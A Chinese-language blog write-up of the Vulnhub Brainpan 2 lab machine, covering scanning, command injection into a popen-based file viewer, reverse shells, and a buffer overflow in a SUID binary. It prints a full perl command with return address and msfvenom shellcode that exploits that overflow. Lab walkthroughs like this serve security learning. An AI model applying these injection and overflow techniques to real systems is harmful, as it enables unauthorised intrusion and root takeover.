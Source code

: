```yaml
---
title: Vulnhub - Brainpan 2 の Write-Up
date: 2020-12-02 17:36:56
categories:
- WriteUPs
- Vulnhub
tags:
- Web
- Reverse
---
```

## Description

&emsp;&emsp;`Vulnhub`靶机`Brainpan`系列的第二台，有点小难度，还有点烧脑。

<!-- more -->

## Step 1

&emsp;&emsp;首先确定靶机IP：

![](/img/Brainpan2/Brainpan1.png)

&emsp;&emsp;扫描开放端口：

![](/img/Brainpan2/Brainpan2.png)

## Step 2

&emsp;&emsp;和brainpan一样，9999端口开放了一个相似的程序，10000端口是个静态页面。

&emsp;&emsp;扫描目录，还是有bin目录：

![](/img/Brainpan2/Brainpan3.png)

&emsp;&emsp;依然有个`brainpan.exe`文件，通过`file`命令发现是`jpeg`格式的图片：

![](/img/Brainpan2/Brainpan4.png)

&emsp;&emsp;改后缀名打开后发现是超级玛丽……

![](/img/Brainpan2/Brainpan5.png)

&emsp;&emsp;可是通过隐写或者夹层等多种方式也无法在其中找到任何有用的信息，只能回头去看9999端口的服务。

&emsp;&emsp;通过多次尝试，原来登录口令就是`GUEST`：

![](/img/Brainpan2/Brainpan6.png)

&emsp;&emsp;`HELP`命令查看各个命令内容：

![](/img/Brainpan2/Brainpan7.png)

&emsp;&emsp;通过`FILES`指令列出文件：

![](/img/Brainpan2/Brainpan8.png)

&emsp;&emsp;通过`VIEW`指令在`notes.txt`中发现是通过`popen(“command”, “r”)`实现的各种功能，猜测`VIEW`指令的实现方式是`popen(“cat <filename>”, “r”)`。

![](/img/Brainpan2/Brainpan9.png)

&emsp;&emsp;尝试通过`";"`绕过实现任意命令执行：

![](/img/Brainpan2/Brainpan10.png)

&emsp;&emsp;执行python反弹shell的命令，获得靶机的shell：

![](/img/Brainpan2/Brainpan11.png)

## Step 3

&emsp;&emsp;尝试SUID提权：

![](/img/Brainpan2/Brainpan12.png)

&emsp;&emsp;最后一个命令看起来比较有趣：

![](/img/Brainpan2/Brainpan13.png)

&emsp;&emsp;进入对应文件夹下寻找信息：

![](/img/Brainpan2/Brainpan14.png)

&emsp;&emsp;尝试将`msg_root`下载到本地查看：

![](/img/Brainpan2/Brainpan15.png)

&emsp;&emsp;搭建python建议http服务器，访问`http://172.16.83.5:7788/msg_root`即可下载对应文件。

&emsp;&emsp;将`msg_root`通过IDA逆向：

![](/img/Brainpan2/Brainpan16.png)

&emsp;&emsp;`get_name`函数：

![](/img/Brainpan2/Brainpan17.png)

&emsp;&emsp;根据`get_name`函数，对于`username`变量，当我们输入的字节数超过`0x11字节`后，并没有`“\x00”`这样的结束符，所以输入过长的时候可能造成缓冲区溢出。

&emsp;&emsp;当`fp(username, message)`;调用`save_msg`函数的时候便可以通过控制`username`长度实现覆盖`EIP`地址，从而跳转到覆盖的位置执行shellcode。

![](/img/Brainpan2/Brainpan18.png)

&emsp;&emsp;根据`get_name`函数的汇编程序，在`0x08048729`地址可以控制`eax`寄存器，从而通过下一步的`call eax`指令实现任意地址跳转。

&emsp;&emsp;所以在`0x8048729`的位置下个断点：

![](/img/Brainpan2/Brainpan19.png)

&emsp;&emsp;可以看到程序正常运行的时候，`ebp-4`的地址放着`save_msg`函数的地址，message部分的内容会被放到`0x804a008`的地址上去：

![](/img/Brainpan2/Brainpan20.png)

&emsp;&emsp;所以我们通过`username`字段反复重复`0x804a008`这个地址以覆盖`eax`，然后将shellcode放到message段即可。

&emsp;&emsp;下面还是通过`msfvenom`模块生成shellcode：

![](/img/Brainpan2/Brainpan21.png)

&emsp;&emsp;最后的`payload`：

```Bash
./msg_root `perl -e 'print "\x04\x08\x08\xa0"x8;'` `perl -e 'print "\xdb\xd1\xd9\x74\x24\xf4\xba\x07\xeb\x6c\xe2\x5d\x2b\xc9\xb1\x0b\x83\xc5\x04\x31\x55\x16\x03\x55\x16\xe2\xf2\x81\x67\xba\x65\x07\x1e\x52\xb8\xcb\x57\x45\xaa\x24\x1b\xe2\x2a\x53\xf4\x90\x43\xcd\x83\xb6\xc1\xf9\x9c\x38\xe5\xf9\xb3\x5a\x8c\x97\xe4\xe9\x26\x68\xac\x5e\x3f\x89\x9f\xe1";'`
```

## Step 4

&emsp;&emsp;执行了payload之后可以看到获得了root权限:

![](/img/Brainpan2/Brainpan22.png)

&emsp;&emsp;进入`/root`文件夹发现两个文件，打开`flag.txt`提示没有权限，打开`whatif.txt`提示我们还不是root权限？WTF？

![](/img/Brainpan2/Brainpan23.png)

&emsp;&emsp;那就继续尝试SUID提权：

![](/img/Brainpan2/Brainpan24.png)

&emsp;&emsp;多了一个`brainpan-1.8.exe`文件，查看文件夹寻找信息：

![](/img/Brainpan2/Brainpan25.png)

&emsp;&emsp;先看一下`brainpan.7`文件是什么内容：

![](/img/Brainpan2/Brainpan26.png)

&emsp;&emsp;文件最后给了提示，我们需要更改`brainpan.cfg`文件内容修改地址和端口：

![](/img/Brainpan2/Brainpan27.png)

&emsp;&emsp;然后运行`brainpan-1.8.exe`，再连接上去通过命令执行反弹shell：

![](/img/Brainpan2/Brainpan28.png)

&emsp;&emsp;接收到`puck`用户的shell：

![](/img/Brainpan2/Brainpan29.png)

&emsp;&emsp;进入`/home/puck`文件夹寻找线索，有个`.backup`：

![](/img/Brainpan2/Brainpan30.png)

&emsp;&emsp;进去看一下发现可能是前一个文件夹的备份：

![](/img/Brainpan2/Brainpan31.png)

&emsp;&emsp;看下唯一有区别的`.bash_history`文件：

![](/img/Brainpan2/Brainpan32.png)

&emsp;&emsp;果然，这里看出来了些端倪。原来是`root`和`root(space)`两个账号......

&emsp;&emsp;厉害的让人无F*UCK说......

&emsp;&emsp;通过备份里的`.ssh`可以ssh连接`root(space)`：

![](/img/Brainpan2/Brainpan33.png)

&emsp;&emsp;但是却提示连接失败，猜测是换了ssh端口，看下配置文件：

![](/img/Brainpan2/Brainpan34.png)

&emsp;&emsp;果然端口被改到了2222，再次尝试：

![](/img/Brainpan2/Brainpan35.png)

&emsp;&emsp;果然是`root(space)`账号，再次去查看`flag.txt`：

![](/img/Brainpan2/Brainpan36.png)

&emsp;&emsp;城里人真会玩系列：

![](/img/Brainpan2/Brainpan37.png)
